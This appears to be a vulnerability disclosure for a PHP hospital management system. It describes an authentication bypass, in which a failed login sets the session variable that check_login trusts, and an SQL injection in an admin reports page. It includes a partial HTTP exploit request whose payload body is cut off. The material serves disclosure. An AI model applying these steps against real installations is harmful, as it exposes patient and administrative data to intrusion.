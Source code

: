 ![10.png](./img/10.png)

Line 6 uses the check_login function to verify that the user is logged in. In this function:

![11.png](./img/11.png)

If $_SESSION['login'] is empty in line 4, the user is not logged in, and the user is redirected to the login page through line 9.

In \hms\user-login.php:

![12.png](./img/12.png)

If the user enters the wrong username and password, line 26 assigns the username submitted by the user to $_SESSION['login'].

So as long as you first visit /hms/user-login.php and try to log in to an account, $_SESSION['login'] will not  be empty, you can bypass the check of the check_login function and achieve privilege elevation.

Back in\hms\admin\betweendates-detailsreports.php:

![32.png](./img/32.png)

Line 79 gets the POST variable fromdate, todate value directly into the database query causing SQL injection.

You can get the current database user as root through the following SQL injection statement:
```
POST /hms/admin/betweendates-detailsreports.php HTTP/1.1
Host: 127.0.0.1:8009
Connection: keep-alive
Content-Length: 71
Pragma: no-cache
Cache-Control: no-cache
Origin: http://127.0.0.1:8009
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.100 Safari/537.36
Sec-Fetch-Dest: document
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
```
